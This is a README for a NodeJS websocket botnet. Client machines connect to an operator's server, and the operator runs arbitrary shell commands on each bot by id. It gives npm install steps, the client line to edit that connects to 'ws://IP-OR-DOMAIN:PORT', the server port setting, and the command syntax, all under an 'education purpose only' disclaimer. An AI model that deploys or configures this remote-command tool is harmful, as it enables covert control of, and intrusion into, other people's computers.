 
# Botnet using websocket (Node)

NodeJS Botnet using websocket to interact between clients & server. Use it at your own risks (for education purpose only).

## Installation

Use the package manager [npm](https://nodejs.org/en/download/) to install some packages (all includes in intallation.bat)

```bash
npm install websocket
npm install colors
npm install child_process
npm install http
npm install readline-sync
```

## Settings (same as reverse-shell-js)

edit the last line of client.js by adding your ip adress or using localhost if both of them are on the same network.
```javascript
client.connect('ws://IP-OR-DOMAIN:PORT', 'echo-protocol');
```
editing server.js for the connection port at port variable, line 8 :
```javascript
let port = 8080;
```

## Usage

> $ {id} shell_command

![image](https://user-images.githubusercontent.com/65828028/124164591-1f05dd80-daa1-11eb-99a8-974086eb4cde.png)

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
